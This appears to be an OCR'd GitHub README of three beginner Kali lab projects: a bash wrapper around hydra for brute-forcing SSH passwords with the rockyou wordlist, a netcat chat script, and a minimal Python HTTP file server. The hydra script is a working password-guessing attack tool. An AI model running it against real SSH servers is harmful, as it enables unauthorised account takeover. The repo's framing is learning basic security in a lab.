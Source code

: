 # Kali-Projects
# All-in-One Security & Networking Projects

This repo contains three easy beginner projects for learning basic networking and security concepts without needing internet access.

---

## Project 1: SSH Brute Force with Hydra

**Purpose:** Brute force SSH login passwords using `hydra`.

**Usage:**  
```bash
chmod +x hydra_bruteforce.sh
./hydra_bruteforce.sh <username> <target_ip> <wordlist>
Example:

bash
Copy
Edit
./hydra_bruteforce.sh root 192.168.56.10 /usr/share/wordlists/rockyou.txt
Code: hydra_bruteforce.sh

bash
Copy
Edit
#!/bin/bash

if [ $# -ne 3 ]; then
  echo "Usage: $0 <username> <target_ip> <wordlist>"
  exit 1
fi

USER=$1
TARGET=$2
WORDLIST=$3

echo "[*] Starting SSH brute force attack on $TARGET with user $USER"
hydra -l $USER -P $WORDLIST ssh://$TARGET
Project 2: Simple Chat with Netcat
Purpose: Create a basic chat server and client using netcat.

Usage:

Start server:

bash
Copy
Edit
./netcat_chat.sh server <port>
Start client:

bash
Copy
Edit
./netcat_chat.sh client <server_ip> <port>
Example:

bash
Copy
Edit
# On server machine
./netcat_chat.sh server 1234

# On client machine
./netcat_chat.sh client 192.168.56.10 1234
Code: netcat_chat.sh

bash
Copy
Edit
#!/bin/bash

if [ "$1" == "server" ]; then
  PORT=$2
  echo "[*] Starting netcat chat server on port $PORT..."
  nc -l -p $PORT
elif [ "$1" == "client" ]; then
  SERVER_IP=$2
  PORT=$3
  echo "[*] Connecting to chat server $SERVER_IP on port $PORT..."
  nc $SERVER_IP $PORT
else
  echo "Usage: $0 server <port> | client <server_ip> <port>"
  exit 1
fi
Project 3: Minimal Python HTTP Server
Purpose: Serve current directory files over HTTP on port 8080.

Usage:

bash
Copy
Edit
python3 simple_http_server.py
Open in browser or use curl:

cpp
Copy
Edit
http://<server_ip>:8080
Code: simple_http_server.py

python
Copy
Edit
from http.server import HTTPServer, SimpleHTTPRequestHandler

PORT = 8080

with HTTPServer(('', PORT), SimpleHTTPRequestHandler) as httpd:
    print(f"Serving HTTP on port {PORT}...")
    httpd.serve_forever()
